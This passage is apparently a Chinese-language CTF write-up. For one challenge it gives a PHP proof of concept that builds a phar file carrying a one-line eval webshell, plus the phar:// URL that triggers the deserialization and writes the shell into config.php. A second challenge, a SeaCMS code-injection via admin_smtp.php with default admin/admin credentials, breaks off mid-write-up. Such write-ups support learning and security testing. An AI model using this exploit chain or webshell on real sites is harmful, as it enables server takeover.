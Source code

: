 扫目录www.zip拿源码

简单审计一下，文件上传、文件后缀拼接`.jpg`、`index.php`很明显有个文件操作函数

![](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210104164743.png)

明显的phar反序列化，看`class.php`找析构函数，发现对`config.php`进行写入，于是只需要反序列化控制`$this->title`为恶意代码即可，简单写个一句话shell，绕一下正则替换：

poc：
```php
<?php
   class Config{
    public $title;
    public $comment;
    public $logo_url;
}
    $o = new Config();
    $o->title="';eval(\$_GET[a]);#";
    
    @unlink("test.phar");
    $phar = new Phar("test.phar");
    $phar->startBuffering();
    $phar->setStub("<?php __HALT_COMPILER(); ?>");
    $phar->setMetadata($o);
    $phar->addFromString("test.txt", "test");
    $phar->stopBuffering();
?>
```
生成phar文件上传，由于文件名是`md5(time())`，所以爆破上传一下就行

exp:
```
index.php?img=phar://./static/02b969e2b0f2619f59521f67aa8c035d.jpg
```
触发phar反序列化后,`config.php`就写入了恶意代码，`index.php`include了`config.php`，所以直接:

![](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210104164749.png)

```
flag{0f131b09-a441-4723-bc02-bf4516863884}
```

### 大家一起来审CMS
www.zip 源码

是海洋cms

在 adm1n/admin_smtp.php 发现了
![](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210104165117.png)

直接没有waf的写入，并且是往一个php文件里面写，由于一些变量可控让我们可以代码注入
![](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210104165126.png)

admin\admin登陆后台；
![](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210104165134.png)
